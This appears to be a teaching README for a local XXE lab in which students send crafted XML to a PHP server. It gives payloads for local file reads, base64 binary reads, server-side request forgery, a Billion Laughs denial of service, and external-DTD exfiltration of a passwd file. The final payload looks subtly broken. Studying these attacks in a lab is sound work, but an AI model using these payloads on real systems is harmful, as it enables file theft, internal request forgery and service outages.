 Run the php file in a XAMPP instance. Then issue queries to the server with these XMLs included (only one XML per query, so one example per query), e.g. with Postman.

These examples are intented to be performed live and by the fellow students.


1st task: Retrieve a non-binary file from the server's machine:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///[ABSOLUTE PATH TO THE FILE]" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

2nd task: Retrieve a binary file from the server's machine (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///[ABSOLUTE PATH TO THE FILE]">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

3th task: Get the result of a request made by the server to a website (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=http://google.de/">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

4th task: Billion Laughs attack:
```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<creds>
  <user>Hello &t2;</user>
  <pass>mypass</pass>
</creds>
```

5th task: Get the result of a request made by the server to a website (Wrapped in CDATA Tags):
```
bad.dtd:

<!ENTITY % file SYSTEM "file:///etc/[filename]">
<!ENTITY % cDataStart "<![CDATA[">
<!ENTITY % cDataEnd "]]>">
<!ENTITY % all "<!ENTITY contents 
'%cDataStart;%file;%cDataEnd;'>">

Post Request: 

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://localhost/bad.dtd">
  %dtd;
  %all;
]>
<creds>
    <user>&contents;</user>
    <pass>mypass</pass>
</creds>
```

6th task: Redirect the result of the request to another server:
```
Sample XML:
 <?xml version="1.0"?>
<!DOCTYPE sampleList SYSTEM "http://localhost/attack.dtd">
 
<sampleList>
   <sampleElement>
      <title lang="en">Title</title>
      <name>Mike</name>
      <lastname>Smith</lastname>
   </sampleElement>
</sampleList>


Post Request: 
<?xml version="1.0"?>
<!DOCTYPE sampleList[
	<!ENTITY % remote SYSTEM "http://localhost/attack.dtd">
	%remote;%int;%trick;
]>
<sampleList>
   <sampleElement>
      <title lang="en">Title</title>
      <name>%int</name>
      <lastname>Smith</lastname>
   </sampleElement>
</sampleList>



attack.dtd: 
<!ENTITY % pay SYSTEM "http://localhost/passwd.txt">
<!ENTITY % int "<!ENTITY % trick SYSTEM ‘http://localhost/?var1=%pay1;’>">





